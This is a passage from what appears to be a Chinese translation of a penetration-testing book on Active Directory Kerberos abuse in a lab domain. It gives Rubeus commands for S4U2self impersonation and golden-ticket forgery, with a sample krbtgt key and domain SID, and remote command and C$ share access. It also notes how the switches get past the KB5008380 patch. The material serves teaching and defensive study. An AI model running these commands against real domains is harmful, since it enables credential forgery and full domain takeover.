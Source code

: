 接着，攻击者可以请求服务票证。请注意`/self`标志，以便模拟受保护用户：

```
Rubeus.exe s4u /self /impersonateuser:robert.baratheon /dc:kingslanding.sevenkingdoms.local /altservice:"http/castelrock.sevenkingdoms.local" /ticket:"tgt_from_step_1" /nowrap /ptt
Invoke-Command -ComputerName castelrock.sevenkingdoms.local -Command {whoami;hostname}
```

结果如下面的截图所示：

![图 7.5 – 成功的 S42Uself 滥用](img/B18964_07_05.jpg)

图 7.5 – 成功的 S42Uself 滥用

相较于银票证，`S4U2self`滥用的主要优势在于服务票证具有有效的 PAC，而不是伪造的。现在，让我们讨论一种更为强大的伪造票证类型——**黄金票证**。

### 黄金票证

黄金票证本质上是伪造的 TGT 票证。凭借这样的 TGT 票证，我们可以作为域中的任何用户请求任何服务票证。理解银票证和黄金票证之间差异的一个很好的比喻是：银票证就像签证，你可以进入一个国家（一个服务器）并在其中旅行（请求访问该服务器上的所有服务）；而黄金票证就像护照，你可以申请每个国家的签证（访问该域中任何资源）。

要伪造 TGT，我们需要知道`krbtgt`账户的 NT 哈希，该信息只能通过域管理员或域中的复制权限获取。微软尝试通过针对`CVE-2021-42287`的补丁（**KB5008380**）来阻止黄金票证伪造。该补丁的思路是引入一个新的数据结构，在 PAC 中包含用户的 SID。然而，如果提供了正确的 SID，攻击仍然会成功[2]。Rubeus 中有两个开关，`/oldpac`和`/newpac`，可以根据补丁安装和强制执行状态来伪造票证。

我们将创建一个黄金票证，用于从`castelrock.sevenkingdoms.local`机器访问`kingslanding.sevenkingdoms.local`文件系统，使用低权限用户`jaime.lannister`进行身份验证：

```
Rubeus.exe golden /user:robert.baratheon /domain:sevenkingdoms.local /aes256:2279187d6dfbacdc093cadef2964eb0afa1ef16af87cc638d34d3a4ea 49f1aa0 /sid:S-1-5-21-4243769114-3325725031-2403382846 /ptt
ls \\kingslanding.sevenkingdoms.local\c$
```
